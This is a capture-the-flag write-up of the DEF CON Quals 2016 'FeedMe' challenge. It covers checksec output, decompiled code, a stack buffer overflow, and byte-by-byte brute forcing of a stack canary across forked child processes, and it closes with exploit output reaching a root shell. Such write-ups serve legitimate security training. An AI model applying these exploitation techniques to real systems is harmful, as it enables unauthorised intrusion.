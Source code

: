 # Defcon Quals 2016 FeedMe

This is the information we get when we use ```checksec``` on the binary:

```
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

If we run the binary and input a large string, we get a ```stack smash``` error, which is weird since ```pwntools``` informed us there is no canary. We also notice that we don't actually exit but a ```child process``` is ended and we are allowed to input once again. We can make a good guess and say that another ```child process``` has been spawned.

```bash
[root@pwn:~/dcquals16_feedme]$ ./feedme 
FEED ME!
A
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
ATE 0a414141414141414141414141414141...
*** stack smashing detected ***: ./feedme terminated
Child exit.
FEED ME!
BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB  
ATE 4141414141410a424242424242424242...
*** stack smashing detected ***: ./feedme terminated
Child exit.
FEED ME!
```

Looking through ```gdb``` using ```backtrace``` and through ```Ghidra``` searching for the string ```FEED ME!```, we can easily find the functions that spawn the ```child processes``` and also the function that takes our input.

```c
uint FUN_08049036(void)

{
  byte bVar1;
  undefined4 uVar2;
  uint uVar3;
  int in_GS_OFFSET;
  undefined buf [32];
  int canary;
  
  canary = *(int *)(in_GS_OFFSET + 0x14);
  puts("FEED ME!");
  bVar1 = readByte();
  readBuf(buf,(uint)bVar1);
  uVar2 = FUN_08048f6e(buf,(uint)bVar1,0x10);
  FUN_0804f700("ATE %s\n",uVar2);
  uVar3 = (uint)bVar1;
  if (canary != *(int *)(in_GS_OFFSET + 0x14)) {
    uVar3 = FUN_0806f5b0();
  }
  return uVar3;
}
```

And there is the stack canary! Since this is a static binary that is also stripped, our decompilation will look very messy. In such scenarious, you'd have to guess which functions are standard library functions and which are new ones, as to not waste time reversing a libc function. We can guess by what kind of arguments are used and by dynamic analysis. Also, looking at the type of data structure returned helps, as we will see.

First of all there's a call to a function that has ```"FEED ME!"``` as an argument. Since we actually output that on the screen, assuming that it is puts() is a pretty good guess. 

The next call is then made and its return value is assigned to ```byte bVar1;```, which means it will return one byte. And that's true, if we reverse that function, we will se that it reads one byte, typecasts it as unsigned integer and returns it. 

Following this, there's a call to which reads ```bVar1``` bytes from stdin and puts them on the stack. Well, this is a clear buffer overflow. Now we simply have to find the ```canary``` value and overwrite ```ret``` with our ```ropchain```.

To get the ```canary``` value, we will have to brute force it since there is no way to leak it. Since the byte on the lowest address of the canary will always be ```\x00```, we will need to brute force 3 bytes. Since ```child processes``` share the same canary value, we will do so without worrying about exiting the program since a new process will be spawned any time we fail. In order to brute force, we will have to adjust the length of overflow as to overflow 1 byte after ```\x00```, then 2, then 3. Finally, we need some kind of confirmation, which is present in the function that spawns the processes:

```c
  uVar1 = FUN_08049036(); // feedMe function
  FUN_0804f700("YUM, got %d bytes!\n",uVar1 & 0xff);
  return;
```

```bash
[root@gpwn:~/dcquals16_feedme]$ python expl.py 
[+] Starting local process './feedme': pid 18739
[*] 008afb66
[*] Switching to interactive mode

FEED ME!
ATE 41414141414141414141414141414141...
$ whoami
root
```